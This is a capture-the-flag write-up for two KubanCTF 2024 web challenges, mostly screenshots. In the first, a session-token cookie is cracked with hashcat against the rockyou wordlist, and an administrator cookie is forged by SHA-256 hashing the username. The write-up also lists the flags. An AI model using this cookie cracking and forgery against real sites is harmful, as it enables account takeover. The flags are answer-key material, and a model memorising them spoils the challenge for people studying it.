 # KubanCTF Qualifier 2024 Write-up

![image](https://github.com/user-attachments/assets/aadb302f-e910-4f33-ac24-ef0ba71a2355)

## WEB

### WEB - Примечание

![image](https://github.com/user-attachments/assets/5e8b51ff-ed39-44d6-b7a2-1ec88044fe47)

![image](https://github.com/user-attachments/assets/4a8c3879-3f5e-45e6-b85e-bd19d882ef44)

![image](https://github.com/user-attachments/assets/759a79e2-0319-4c5c-9c88-a9e46828fede)

![image](https://github.com/user-attachments/assets/db1a1837-c470-410b-bce6-651cfc55e770)

![image](https://github.com/user-attachments/assets/d2f501ea-be2e-4a50-944c-f0dc823deba8)

Request

    GET /profile.php HTTP/1.1
    Host: 62.173.147.143:16004
    Accept: */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
    X-Requested-With: XMLHttpRequest
    Referer: http://62.173.147.143:16004/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: ru-RU,ru;q=0.9
    Cookie: Token=ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae
    Connection: close

Our token is `ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae`

    hashcat ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae
    
    hashcat -m 1400 -a 0 'ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae' /home/kali/wordlist/rockyou.txt

![image](https://github.com/user-attachments/assets/03c4eca3-5f3d-4a48-815e-45ff70c44c12)

![image](https://github.com/user-attachments/assets/42c070bf-0377-4030-aee0-bbbcc73bd5ba)

   `cd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae`:`test123`

   ![image](https://github.com/user-attachments/assets/21981efc-cd52-490e-a6f0-e40c0a05a401)

administrator@codeby.games

    echo -n 'administrator' | sha256sum 

![image](https://github.com/user-attachments/assets/62c848cc-3846-424d-981e-387d711d5d1e)

    4194d1706ed1f408d5e02d672777019f4d5385c766a8c6ca8acba3167d36a7b9

![image](https://github.com/user-attachments/assets/61fb9b8b-3909-434f-801b-f04eda3fabdb)

![image](https://github.com/user-attachments/assets/ba360d09-40dc-4633-b1e5-8732834be5ec)

FLAG:

    CSC{sup3r_w34k_co0ki3}

## WEB - What's missing?

![image](https://github.com/user-attachments/assets/8408fc1b-ceb0-4b6d-98b8-e6a56f5107db)

![image](https://github.com/user-attachments/assets/8bacbcba-8ff8-46fe-bf09-47eb96989414)

![image](https://github.com/user-attachments/assets/22bb170f-6bd7-4eb9-9ba4-9edb46924d14)

FLAG:

    CSC{7H3_L1M174710NS_4R3_0NLY_1N_0UR_H34DS}

